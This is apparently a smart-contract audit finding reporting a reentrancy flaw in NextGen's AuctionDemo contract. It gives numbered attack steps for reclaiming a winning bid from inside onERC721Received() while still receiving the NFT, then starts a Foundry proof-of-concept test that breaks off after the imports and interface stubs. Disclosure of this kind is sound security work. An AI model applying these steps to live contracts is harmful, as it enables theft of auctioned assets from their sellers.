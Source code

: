 
### <a id="h-09"></a>[H-09]
## **Attacker can exploit reentrancy vulnerability to get ownership of auctioned token for free**
#### https://github.com/code-423n4/2023-10-nextgen/blob/main/smart-contracts/AuctionDemo.sol#L104-L120
<br>

## Impact
Since control is passed to `highestBidder`'s `onERC721Received()` [inside claimAuction()](https://github.com/code-423n4/2023-10-nextgen/blob/main/smart-contracts/AuctionDemo.sol#L112) and there is no reentrancy guard on various public functions like `claimAuction()`, [cancelBid()](https://github.com/code-423n4/2023-10-nextgen/blob/main/smart-contracts/AuctionDemo.sol#L124) and [cancelAllBids()](https://github.com/code-423n4/2023-10-nextgen/blob/main/smart-contracts/AuctionDemo.sol#L134), an attacker can take part in the auction and get ownership of the token for free.

## Proof of Concept
Attack steps:
1. Attacker places a very high bid via [participateToAuction()](https://github.com/code-423n4/2023-10-nextgen/blob/main/smart-contracts/AuctionDemo.sol#L57) to emerge as the highest bidder.
2. He calls [claimAuction()](https://github.com/code-423n4/2023-10-nextgen/blob/main/smart-contracts/AuctionDemo.sol#L104) at end of auction.
3. Protocol [transfers the token to the attacker](https://github.com/code-423n4/2023-10-nextgen/blob/main/smart-contracts/AuctionDemo.sol#L112) which calls `onERC721Received()` inside the attacker contract.
4. A call to [cancelBid()](https://github.com/code-423n4/2023-10-nextgen/blob/main/smart-contracts/AuctionDemo.sol#L124) or [cancelAllBids()](https://github.com/code-423n4/2023-10-nextgen/blob/main/smart-contracts/AuctionDemo.sol#L134) is made from inside `onERC721Received()`.
5. Attacker's bid amount is returned to him.
6. Ownership of token is transferred to him.
He is the owner of the token for free.
<br>

Steps to run the PoC code:
- Install foundry and run `forge init --no-git --force` from root folder (`2023-10-nextgen/`).
- Paste the following code inside a new file `2023-10-nextgen/test/t0x1cClaimAuction.t.sol`.
- Run via `forge test --mt test_t0x1cClaimAuction -vv`

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {Test, console} from "forge-std/Test.sol";
import {DelegationManagementContract} from "../smart-contracts/NFTdelegation.sol";
import {randomPool} from "../smart-contracts/XRandoms.sol";
import {NextGenAdmins} from "../smart-contracts/NextGenAdmins.sol";
import {NextGenCore} from "../smart-contracts/NextGenCore.sol";
import {NextGenRandomizerNXT} from "../smart-contracts/RandomizerNXT.sol";
import {NextGenMinterContract} from "../smart-contracts/MinterContract.sol";
import {auctionDemo} from "../smart-contracts/AuctionDemo.sol";

interface IERC721 {
    function ownerOf(uint256 tokenId) external view returns (address owner);
    function approve(address to, uint256 tokenId) external;
}

interface IERC721Receiver {
    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
```